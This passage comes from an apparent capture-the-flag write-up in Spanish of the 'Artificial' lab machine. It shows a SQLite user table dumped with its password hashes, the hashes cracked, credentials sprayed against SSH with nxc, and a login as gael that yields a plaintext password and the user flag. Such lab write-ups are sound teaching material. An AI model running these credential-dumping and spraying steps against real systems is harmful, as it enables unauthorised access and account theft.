 2. Dump de usuarios:

```bash
  sqlite3 users.db                                                              
SQLite version 3.46.1 2024-08-13 09:16:08
Enter ".help" for usage hints.
sqlite> .tables
model  user 
sqlite> SELECT * FROM user;
1|gael|gael@artificial.htb|c99175974b6e192936d97224638a34f8
2|mark|mark@artificial.htb|0f3d8c76530022670f1c6029eed09ccb
3|robert|robert@artificial.htb|b606c5f5136170f15444251665638b36
4|royer|royer@artificial.htb|bc25b1f80f544c0ab451c02a3dca9fc6
5|mary|mary@artificial.htb|bf041041e57f1aff3be7ea1abd6129d0
6|admin|admin@mail.ru|21232f297a57a5a743894a0e4a801fc3
7|david|david@outlook.com|172522ec1028ab781d9dfd17eaca4427
8|davido|dm@outlook.com|68116ce0ae62cb8d421a1d749ec0496f
9|test|test@test.htb|444bcb3a3fcf8389296c49467f27e1d6
10|attacker|attacker@attacker.com|5f4dcc3b5aa765d61d8327deb882cf99
11|oxygen@gmail.com|abc@123|b24331b1a138cde62aa1f679164fc62f
12|oxygen|oxygen@gmail.com|b24331b1a138cde62aa1f679164fc62f
13|Jo|terrypari34@gmail.com|a9e6a432530d917bfb98ccf1ce748cd3
14|duckman|duckman@doom.com|187aa86997040177d240ee764ace4a58
15|amine|amine2222@gmail.com|30d2310007b75bf0180f5ed831f20fdb
sqlite> 
```
3. Usamos Crackstation para decodificar los hashes, generamos una lista de usuarios y otra lista de passwords, para propagar credenciales sobre ssh.

```bash
  nxc ssh 10.10.11.74 -u users.txt -p passwords.txt
SSH         10.10.11.74     22     10.10.11.74      [*] SSH-2.0-OpenSSH_8.2p1 Ubuntu-4ubuntu0.13
SSH         10.10.11.74     22     10.10.11.74      [+] gael:mattp005numbertwo  Linux - Shell access!
```

4. Entramos como **Gael**

```bash
  ssh gael@10.10.11.74

gael@artificial:~$ 
```

* Obtenemos el flag user.txt

```bash
gael@artificial:~$ cat user.txt
7c000253e59976f67a0f71a6b69e8b5a
```
#### Escalamos privilegios

1. Luego de ejecutar linpeas notamos dos cosas

* El usuario gael pertenece al grupo sysadm
* Tenemos accesos a un archivo que parece ser un backup
